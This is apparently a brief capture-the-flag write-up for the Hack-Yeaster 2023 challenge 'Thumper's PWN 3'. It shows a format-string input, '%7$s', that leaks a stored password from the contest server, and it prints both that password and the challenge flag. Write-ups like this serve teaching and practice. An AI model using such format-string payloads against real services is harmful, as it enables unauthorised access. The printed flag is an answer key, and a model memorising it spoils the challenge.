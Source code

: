 ```yaml
---
layout: writeup

title: Thumper's PWN 3
level: 5 # optional, for events that use levels
difficulty: medium
categories: [pwn]
tags: [format string]

flag: he2023{w3lc0m3_t0_r1ng_3_thump3r}

---
```


## Challenge

Thumper has been hunting his nemesis, Dr. Evil, for months. He finally located his remote system and is trying to gain access. Can you help him find the right password?

Target: `nc ch.hackyeaster.com 2313`

## Solution

we find out its a format string vulnerability and read values off the stack.

we get something interesting by giving `%7$s` as the password

```bash
$ nc ch.hackyeaster.com 2313

Welcome to the password protected vault
Please enter your password: %7$s
Nope..
5uP3R_s3cUr3_PW
is incorrect. Better luck next time
```

we use this password to log in and get our flag!

```bash
$ nc ch.hackyeaster.com 2313

Welcome to the password protected vault
Please enter your password: 5uP3R_s3cUr3_PW
Access granted, here is your flag:

he2023{w3lc0m3_t0_r1ng_3_thump3r}
```

